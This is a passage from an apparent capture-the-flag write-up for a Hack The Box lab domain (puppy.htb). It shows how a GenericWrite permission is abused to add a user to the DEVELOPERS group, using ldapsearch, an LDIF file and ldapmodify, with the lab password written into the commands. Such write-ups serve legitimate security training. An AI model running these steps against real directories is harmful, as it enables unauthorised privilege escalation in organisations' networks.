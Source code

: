 <p class="indent-paragraph">
With <span class="blue">levi.james</span> holding <span class="highlight-red">GenericWrite</span> over the <span class="blue">DEVELOPERS</span> group, the next step was to retrieve his full Distinguished Name (DN), required for direct LDAP modifications. Using <code>ldapsearch</code> with appropriate filters, we extracted only the necessary DN value: <code>CN=Levi B. James,OU=MANPOWER,DC=PUPPY,DC=HTB</code><span class="codefix">.</span> This identifier would later be used to update group memberships.
</p>


```
~$ ldapsearch -x -H ldap://dc.puppy.htb -D "levi.james@puppy.htb" -w 'KingofAkron2025!' -b "DC=puppy,DC=htb" "(sAMAccountName=levi.james)" dn | grep "^dn:"
                  
dn: CN=Levi B. James,OU=MANPOWER,DC=PUPPY,DC=HTB
```

<p class="indent-paragraph">
With Levi’s distinguished name in hand, we prepare an LDIF (LDAP Data Interchange Format) file — a simple, structured format used to define changes to directory entries. In this case, the file contains four essential lines: the first line,<code>dn: CN=DEVELOPERS,DC=PUPPY,DC=HTB</code><span class="codefix">,</span> specifies the exact object we intend to modify (the DEVELOPERS group); the second line,<code>changetype: modify</code><span class="codefix">,</span> tells the LDAP server this is a modification operation; the third line,<code>add: member</code><span class="codefix">,</span> defines the attribute we are appending to; and the final line,<code>member: CN=Levi B. James,OU=MANPOWER,DC=PUPPY,DC=HTB</code><span class="codefix">,</span> inserts Levi’s DN as a new group member. This small file effectively instructs the domain controller to enroll Levi into the DEVELOPERS group — and with the proper permissions in place, it’s all done in a single silent move.
</p>

```
~$ nano modify-developers-group.ldif

dn: CN=DEVELOPERS,DC=PUPPY,DC=HTB
changetype: modify
add: member
member: CN=Levi B. James,OU=MANPOWER,DC=PUPPY,DC=HTB
```

<p class="indent-paragraph">
With the LDIF file prepared and saved as <code>modify-developers-group.ldif</code><span class="codefix">,</span> we proceeded to apply the modification using <code>ldapmodify</code><span class="codefix">.</span> The command authenticated as <span class="blue">levi.james</span> and instructed the domain controller to append his distinguished name to the <code>DEVELOPERS</code> group. Once executed, the server processed the request and, assuming no ACLs interfered, confirmed success — Levi was now officially part of the developers.
</p>


```
~$ ldapmodify -x -H ldap://dc.puppy.htb -D "levi.james@puppy.htb" -w 'KingofAkron2025!' -f modify-developers-group.ldif

modifying entry "CN=DEVELOPERS,DC=PUPPY,DC=HTB"
```
